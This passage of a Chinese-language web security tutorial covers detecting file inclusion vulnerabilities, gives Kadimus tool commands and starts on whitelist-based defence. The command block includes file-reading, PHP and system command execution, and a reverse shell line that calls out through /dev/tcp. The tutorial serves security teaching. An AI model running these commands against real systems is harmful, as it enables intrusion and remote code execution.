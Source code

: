 #### 1.动态检测思路

挖掘文件包含漏洞的方式与测试漏洞的利用思路是一样的，分为本地和远程两种情况。

* **远程文件包含漏洞检测**

（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。

（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。

（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。

* **本地文件包含漏洞检测**

（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。

（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。

（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。

上述检测思路既适用于手工测试，也适用于日常的自动化扫描。

#### 2.静态检测思路

从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。

<Image alt="图片9.png" src="https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png"/>

#### 3.自动化检测与利用工具：Kadimus

提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 [Kadimus](https://github.com/P0cL4bs/Kadimus/)，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。

介绍几个常用命令：

```shell
# 检测参数是否存在文件包含漏洞
./kadimus -u localhost/?pg=contact -A my_user_agent
# 读取文件内容
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
# 执行PHP代码
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
# 执行系统命令
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
# 反连shell
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

### 漏洞防御

#### 1.白名单限制

如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：

```php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```
